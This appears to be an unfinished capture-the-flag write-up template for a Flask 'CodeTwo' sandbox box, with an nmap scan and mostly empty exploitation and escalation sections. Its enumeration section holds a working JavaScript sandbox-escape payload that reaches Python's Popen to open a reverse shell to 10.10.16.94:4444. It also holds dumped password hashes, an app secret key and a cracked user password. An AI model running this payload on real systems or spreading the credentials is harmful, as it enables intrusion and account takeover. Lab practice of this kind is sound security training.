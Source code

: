 ```yaml
---
os: linux
status: 
tags:
  - sandbox
  - flask
  - python
  - javascript
aliases:
---
```

# Resolution summary

>[!summary]
>- Step 1
>- Step 2

## Improved skills

- Skill 1
- Skill 2

## Used tools

- nmap
- gobuster


---

# Information Gathering

Scanned TCP ports:

```sh
PORT     STATE SERVICE REASON         VERSION                                                    
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)                                                               
| ssh-hostkey:                                                                                   
|   3072 a0:47:b4:0c:69:67:93:3a:f9:b4:5d:b3:2f:bc:9e:23 (RSA)                    
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCnwmWCXCzed9BzxaxS90h2iYyuDOrE2LkavbNeMlEUPvMpznuB9cs8CTnUenkaIA8RBb4mOfWGxAQ6a/nmKOea1FA6rfGG+fhOE/R1g8BkVoKGkpP1hR2XWbS3DWxJx3UUoKUDgFGSLsEDuW1C+ylg8UajG
okSzK9NEg23WMpc6f+FORwJeHzOzsmjVktNrWeTOZthVkvQfqiDyB4bN0cTsv1mAp1jjbNnf/pALACTUmxgEemnTOsWk3Yt1fQkkT8IEQcOqqGQtSmOV9xbUmv6Y5ZoCAssWRYQ+JcR1vrzjoposAaMG8pjkUnXUN0KF/AtdXE37rGU0DLTO9+eAHXhvdujYukh
wMp8GDi1fyZagAW+8YJb8uzeJBtkeMo0PFRIkKv4h/uy934gE0eJlnvnrnoYkKcXe+wUjnXBfJ/JhBlJvKtpLTgZwwlh95FJBiGLg5iiVaLB2v45vHTkpn5xo7AsUpW93Tkf+6ezP+1f3P7tiUlg3ostgHpHL5Z9478=
|   256 7d:44:3f:f1:b1:e2:bb:3d:91:d5:da:58:0f:51:e5:ad (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBErhv1LbQSlbwl0ojaKls8F4eaTL4X4Uv6SYgH6Oe4Y+2qQddG0eQetFslxNF8dma6FK2YGcSZpICHKuY+ERh9c=
|   256 f1:6b:1d:36:18:06:7a:05:3f:07:57:e1:ef:86:b4:85 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEJovaecM3DB4YxWK2pI7sTAv9PrxTbpLG2k97nMp+FM
8000/tcp open  http    syn-ack ttl 63 Gunicorn 20.0.4
|_http-title: Welcome to CodeTwo
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated open TCP ports:

```sh

```

Enumerated top 200 UDP ports:

```sh

```

---

# Enumeration

## Port 80 - HTTP (Apache)

```javascript
let cmd = "bash -c 'bash -i >& /dev/tcp/10.10.16.94/4444 0>&1'";
let hacked = Object.getOwnPropertyNames({});
let bymarve = hacked.__getattribute__;
let n11 = bymarve("__getattribute__");
let obj = n11("__class__").__base__;
let getattr = obj.__getattribute__;

function findpopen(o) {
    let result;
    for (let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i];
        if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item;
        }
        if (item.__name__ != "type" && (result = findpopen(item))) {
            return result;
        }
    }
}

let popen = findpopen(obj);
let proc = popen(cmd, -1, null, -1, -1, -1, null, null, true);  // shell=True
proc.communicate();
```

database
```
INSERT INTO user VALUES(1,'marco','649c9d65a206a75f5abe509fe128bce5');
INSERT INTO user VALUES(2,'app','a97588c0e2fa3a024876339e27aeb42e');
INSERT INTO user VALUES(3,'test','3e6ecbbf67e1c9e7f1e1902bae417e30');
INSERT INTO user VALUES(4,'test''','3e6ecbbf67e1c9e7f1e1902bae417e30');
INSERT INTO user VALUES(5,'test''--','3e6ecbbf67e1c9e7f1e1902bae417e30');
INSERT INTO user VALUES(6,'test'';--','3e6ecbbf67e1c9e7f1e1902bae417e30');
INSERT INTO user VALUES(7,'haxor','663d05fb002ce8223ce43f15bcc0562c');
INSERT INTO user VALUES(8,'mc1','ce7af47187c49b266339d62229ab9b88');
INSERT INTO user VALUES(9,'mine','918b81db5e91d031548b963c93845e5b');
INSERT INTO user VALUES(10,'test1','098f6bcd4621d373cade4e832627b4f6');

app.secret_key = 'S3cr3tK3yC0d3Tw0'


root:x:0:0:root:/root:/bin/bash
marco:x:1000:1000:marco:/home/marco:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash


marco sweetangelbabylove
```


```
-rwxr-xr-x   1 root root  355 Dec 29  2017 bsdmainutils
```


---

# Exploitation

## SQL Injection


---

# Lateral Movement to xxx

## Local enumeration


## Lateral movement vector

---

# Privilege Escalation to xxx

## Local enumeration


## Privilege Escalation vector


---

# Trophy

{{image}}

>[!todo] **User.txt**
>flag

>[!todo] **Root.txt**
>flag

**/etc/shadow**

```sh

```